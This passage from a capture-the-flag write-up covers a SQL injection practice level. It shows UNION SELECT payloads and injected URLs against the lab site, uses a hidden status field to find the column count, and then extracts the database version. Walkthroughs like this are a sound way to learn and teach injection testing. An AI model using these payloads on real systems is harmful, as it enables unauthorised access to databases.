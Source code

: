 + Test with prev Payload:  
+ ***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,2,3,4--`  
+ `https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3,4--`
> Nothing new shown, except the *footer* is changed.

+ Let's check out the source to see what happened to footer:  
[view-source:https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3,4--](view-source:https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3,4--)
> <input type='hidden' name='status' value='***error***' />
> <b><u><i>Age:</i></u></b> 30<br /><b><u><i>Cool rating:</i></u></b> 10<hr />
> Level developed by Zixem

+ Ok, so the result is hidden, let's check with 3 columns:  
+ ***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,2,3--`  
+ `https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3--`
> *footer* is reset.

[view-source:https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3--](view-source:https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,2,3--)
> <input type='hidden' name='status' value='***ok2***'

+ Interesting, Let's change value on column 2:  
+ ***PAYLOAD***: `1 AND 1=2 UNION SELECT 1,version(),3--`  
##### Result: #####  
+ `https://zixem.altervista.org/SQLi/level7.php?id=1%20AND%201=2%20UNION%20SELECT%201,version(),3--`
> value='ok***5.6.33-log***

**Bazinga!** Do the same with **user()**.
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  
